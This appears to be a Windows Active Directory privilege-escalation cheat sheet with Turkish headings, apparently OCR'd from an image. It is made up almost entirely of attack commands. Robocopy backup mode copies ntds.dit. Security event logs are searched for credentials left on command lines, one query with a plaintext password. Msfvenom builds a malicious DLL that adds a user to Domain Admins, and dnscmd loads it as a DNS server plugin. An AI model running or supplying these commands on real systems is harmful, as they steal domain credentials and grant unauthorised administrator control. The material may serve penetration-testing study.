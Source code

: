 ```cmd-session
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```


### Event Log Readers Grubu Üyelerini Listeleme

```cmd-session
net localgroup "Event Log Readers"
```


### **wevtutil Kullanarak Security Loglarını Arama** (Local)

```powershell-session
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

### Remote Bilgisayarda Güvenlik Günlüğünü Kimlik Bilgileriyle Sorgulama

```cmd-session
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

### **Get-WinEvent Kullanarak Security Logs'ta Arama Yapma**

```powershell-session
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```


----

### **Malicious DLL Oluşturma**  

```shell-session
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```


### **Özel DLL Yükleme**

```cmd-session
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```


### **Kullanıcının SID'sini Bulma**  

```cmd-session
wmic useraccount where name="netadm" get sid
```

